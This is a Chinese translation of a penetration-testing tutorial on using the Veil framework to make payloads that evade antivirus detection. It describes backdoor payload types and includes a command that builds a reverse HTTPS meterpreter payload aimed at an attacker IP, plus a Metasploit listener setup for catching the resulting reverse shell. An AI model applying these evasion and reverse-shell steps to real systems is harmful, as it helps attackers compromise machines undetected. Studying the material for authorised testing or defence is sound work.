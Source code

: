 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [medium.com](https://medium.com/@arshiadev/how-to-bypass-antiviruses-by-veil-framework-ac8f2fbc5383)

> 杀伤链的利用阶段对于渗透测试人员或攻击者来说是最危险的阶段......

杀伤链的利用阶段对于渗透测试人员或攻击者来说是最危险的阶段，因为他们直接与目标网络或系统进行交互，并且他们的活动被记录或身份被发现的风险很高。同样，必须采用隐身来将测试人员的风险降至最低。尽管没有无法检测到的特定方法或工具，但有一些配置更改和特定工具会使检测更加困难。

在考虑远程攻击时，大多数网络和系统采用各种类型的防御控制来最大限度地降低攻击风险。网络设备包括路由器、防火墙、入侵检测和预防系统以及恶意软件检测软件。

为了便于利用，大多数框架都包含使攻击有些隐秘的功能。Metasploit 框架允许您在逐个漏洞利用的基础上手动设置规避因素，确定哪些因素（如加密、端口号、文件名等）可能难以设置，并且将针对每个特定 ID 进行更改。Metasploit 框架还允许加密目标和攻击系统之间的通信（windows/meterpreter/reverse_tcp_rc4 有效负载），从而难以检测到漏洞利用有效负载。

**Metasploit Pro (Nexpose) 可作为 Kali 发行版的试用版，包括以下内容以专门绕过入侵检测系统：**

1.  可以在 Discovery Scan 的设置中调整扫描速度，通过将速度设置为偷偷摸摸或偏执来降低与目标交互的速度。
2.  这通过发送较小的 TCP 数据包并增加数据包之间的传输时间来实现传输规避。
3.  这减少了针对目标系统同时发起的攻击的数量。
4.  对于涉及 DCERPC、HTTP 和 SMB 的漏洞利用，可以自动设置特定于应用程序的 Evasion 选项。

大多数防病毒软件依靠签名匹配来定位病毒、勒索软件或任何其他恶意软件。他们检查每个可执行文件中已知存在于病毒中的代码字符串（签名），并在检测到可疑字符串时发出警报。Metasploit 的许多攻击都依赖于可能具有签名的文件，随着时间的推移，该签名已被防病毒供应商识别。

作为对此的回应，Metasploit 框架允许对独立的可执行文件进行编码以绕过检测。不幸的是，在诸如 virustotal.com 等公共网站上对这些可执行文件进行了广泛的测试，降低了它们绕过 AV 软件的有效性。但是，这导致 Veil 和 Shellter 等框架通过交叉验证可执行文件来绕过 AV 软件，方法是在将后门植入目标环境之前将它们直接上传到 VirusTotal。

Veil 框架是另一个 AV-Evasion 框架，由 Chris Truncer 编写，称为 Veil-Evasion (www.veil-framework.com)，它提供有效的保护和检测任何针对端点和服务器的独立漏洞利用。截至 2018 年 12 月，Veil 框架的最新版本是 3.1.11。该框架由两个工具组成：Evasion 和 Ordnance。

Evasion 将各种技术聚合到一个简化管理的框架中，Ordnance 为支持的有效负载生成 shellcode，以进一步针对已知漏洞创建新的漏洞利用。

**作为一个框架，Veil 具有几个特性，其中包括：**

1.  它结合了多种编程语言（包括 C、C# 和 Python）中的自定义 shellcode。
2.  它可以使用 Metasploit 生成的 shellcode，也可以使用 Ordnance 创建自己的 shellcode。
3.  它可以集成第三方工具，例如 Hyperion（使用 AES 128 位加密对 EXE 文件进行加密）、PEScrambler 和 BackDoor Factory。
4.  可以生成有效负载并将其无缝替换到所有 PsExec、Python 和 .exe 调用中。
5.  用户可以重用 shellcode 或实现自己的加密方法。
6.  它的功能可以编写脚本来自动部署。
7.  Veil 正在不断开发中，并且该框架已通过 Veil-Evasion-Catapult（有效载荷传送系统）等模块进行了扩展。

**Veil 可以生成漏洞利用载荷；独立有效负载包括以下选项：**

1.  调用 shellcode 的最小 Python 安装；它上传了一个最小的 Python.zip 安装和 7Zip 二进制文件。Python 环境被解压，调用 shellcode。由于唯一与受害者交互的文件是受信任的 Python 库和解释器，因此受害者的 AV 不会检测到任何异常活动。
2.  Sethc 后门将受害者的注册表配置为启动 RDP 粘滞密钥后门。
3.  PowerShell shellcode 注入器。

**创建有效负载后，可以通过以下两种方式之一将它们传递到目标：**

4. 使用 Impacket 和 PTH 工具包上传和执行

5. UNC 调用

Veil 框架可从 Kali 存储库获得，只需在终端中输入 apt-get install veil 即可自动安装。

**小费：**

如果您在安装过程中收到任何错误，请重新运行 /usr/share/veil/config/setup.sh —force —silent。

**Veil 向用户展示了主菜单，它提供了两个可供选择的工具和许多加载的有效负载模块，以及可用的命令。键入 use Evasion 将带我们进入 Evasion 工具和 list 命令，该命令将列出所有可用的有效负载。Veil 框架的初始启动屏幕显示在以下屏幕截图中：**

![](https://miro.medium.com/max/648/1*ZuRxIDfg2MFzPISiGcp7nA.jpeg)

**Veil 框架正在快速发展，每月都有重要的发布，重要的升级更频繁地发生。目前，在 Evasion 工具中，有 41 个有效载荷旨在通过加密或直接注入内存空间来绕过杀毒软件。这些有效负载显示在以下屏幕截图中：**

![](https://miro.medium.com/max/714/1*CO7DLeVL3g-KHka02Ou-LA.jpeg)

**要获取有关特定负载的信息，请键入 info 或 info 以自动完成可用的负载。您也可以只输入列表中的数字。在以下示例中，我们输入 29 以通过运行 use 29 来选择 python/shellcode_inject/aes_encrypt 有效负载：**

![](https://miro.medium.com/max/709/1*9UGlBHUf_uOADN0v52OVPg.jpeg)

该漏洞利用包括 expire_payload 选项。如果目标用户没有在指定的时间范围内执行该模块，则该模块将被渲染为不可操作，并且它还包括 CLICKTRACK，它设置用户必须进行多少次点击才能执行有效负载的值。此功能有助于攻击的隐蔽性。

一些必需的选项预先填充了默认值和描述。如果默认情况下未完成所需的值，则测试人员将需要输入一个值，然后才能生成有效负载。要设置选项的值，请输入 set，然后键入所需的值。要接受默认选项并创建漏洞利用，请在命令提示符中键入 generate。

**如果负载使用 shellcode，您将看到 shellcode 菜单，您可以从以下屏幕截图中列出的选项中进行选择：**

![](https://miro.medium.com/max/720/1*dfD4AisLtyxphJSXN0FGSA.jpeg)

默认情况下，Ordnance 是您可以生成特定 shellcode 的地方；如果有错误，它将默认为 msfvenom 或自定义 shellcode。如果选择了自定义 shellcode 选项，请以 \x01\x02 的形式输入 shellcode，不带引号和换行符 (\n)。如果选择了默认的 msfvenom，系统将提示您选择 windows/meterpreter/reverse_tcp 的默认有效负载。如果您希望使用另一个有效负载，请按 Tab 键以完成可用的有效负载。可用的有效载荷显示在以下屏幕截图中：

![](https://miro.medium.com/max/709/1*XFW5Jj_3DEz7aGPAx5w_xg.jpeg)

**在下面的屏幕截图中，tab 命令用于演示一些可用的有效载荷；但是，选择了默认值 (windows/meterpreter/reverse_https)：**

![](https://miro.medium.com/max/719/1*KIJaFQO_zu_lBbP4MtJ1uw.jpeg)

**然后将向用户显示输出菜单，并提示选择生成的有效负载文件的基本名称。如果负载是基于 Python 的，并且您选择了 compile_to_exe 作为选项，则用户可以选择使用 Pyinstaller 创建 EXE 文件，或者使用 Py2Exe。EXE 生成完成后，您应该能够看到以下内容：**

![](https://miro.medium.com/max/718/1*EkKaf59Wa3qKks_xlKkpfw.jpeg)

**也可以使用以下选项直接从命令行创建漏洞利用：**

kali@linux:~./ t Evasion -p 29 — ordnance-payload rev_https — ip 192.168.1.7 — 端口 443 -o Outfile

创建漏洞利用后，测试人员应针对 VirusTotal 验证有效负载，以确保将其放置在目标系统上时不会触发警报。如果负载样本直接提交给 VirusTotal 并且其行为将其标记为恶意软件，则反病毒供应商可以在短短一小时内发布针对提交的签名更新。这就是为什么明确告诫用户不要将样本提交给任何在线扫描仪的原因！信息。

**Veil-Evasion 允许测试人员对 VirusTotal 进行安全检查。创建任何有效负载时，都会创建一个 SHA1 哈希并将其添加到位于 ~/veil-output 目录中的 hashes.txt 中。测试人员可以调用 checkvt 脚本将哈希提交给 VirusTotal，VirusTotal 将根据其恶意软件数据库检查 SHA1 哈希值。如果 Veil-Evasion 有效负载触发匹配，则测试人员知道它可能被目标系统检测到。如果未触发匹配，则漏洞利用负载将绕过防病毒软件。使用 checkvt 命令成功查找（AV 无法检测到）如下所示：**

![](https://miro.medium.com/max/490/1*2NuGCJQv258mCSQIHx0VZw.jpeg)

迄今为止的测试支持发现，如果 checkvt 没有在 VirusTotal 上找到匹配项，则目标的防病毒软件将不会检测到有效负载。要与 Metasploit 框架一起使用，请使用 exploit/multi/handler 并将 PAYLOAD 设置为 windows/meterpreter/reverse_https（与 Veil-Evasion 有效负载选项相同），以及用于 Veil-Evasion 的相同 LHOST 和 LPORT。当侦听器正常工作时，将漏洞利用发送到目标系统。当监听器启动它时，它会建立一个反向 shell 返回到攻击者的系统。